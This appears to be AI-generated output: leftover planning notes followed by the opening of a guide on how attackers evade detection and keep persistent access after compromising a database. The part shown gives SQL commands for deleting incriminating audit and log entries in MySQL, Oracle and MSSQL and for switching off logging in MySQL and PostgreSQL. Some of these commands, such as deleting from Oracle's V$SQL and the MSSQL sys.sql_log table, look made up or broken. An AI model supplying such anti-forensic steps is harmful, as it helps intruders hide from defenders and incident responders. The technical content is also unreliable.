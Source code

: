 Wait, the user mentioned adding markdown tables. Let me think where they fit. Maybe a table comparing evasion techniques with examples and their purposes. Another table for persistence methods with examples and database-specific details.

Check if the example workflow can be presented in a table or as a step-by-step list. Probably a numbered list is better for clarity.

Also, ensure that each paragraph is comprehensive. For instance, under log manipulation, explain not just how they delete logs but also how they disable future logging. Mention specific commands for different databases.

I need to avoid mentioning citations, so just present the information directly. Make sure technical terms are explained, like what DBMS_SCHEDULER does.

Let me start drafting each subsection step by step, ensuring all points are covered with examples and structured clearly. Use tables where they add value, like comparing evasion methods or persistence techniques across databases.
</think>

## Evasion and Maintaining Persistent Access  

Post-compromise, attackers employ sophisticated evasion tactics and persistence mechanisms to avoid detection and ensure long-term control over the compromised system. These strategies are critical for maintaining access even after initial intrusion detection and for evading forensic analysis. Below is a detailed breakdown of these techniques:  

---

### **Evasion Tactics**  

#### **1. Log Manipulation**  
Attackers erase traces of their activities by targeting audit logs and disabling logging mechanisms:  
- **Deleting Audit Records**:  
  - **MySQL**:  
    ```sql  
    DELETE FROM mysql.general_log WHERE argument LIKE '%malicious_query%';  
    ```  
  - **Oracle**:  
    ```sql  
    DELETE FROM V$SQL WHERE SQL_TEXT LIKE '%exploit%';  
    ```  
  - **MSSQL**:  
    ```sql  
    DELETE FROM sys.sql_log WHERE [text] LIKE '%attack%';  
    ```  
- **Disabling Logging**:  
  - **MySQL**:  
    ```sql  
    SET GLOBAL general_log = 'OFF';  
    ```  
  - **PostgreSQL**:  
    ```sql  
    ALTER SYSTEM SET logging_collector = off;  
    ```  
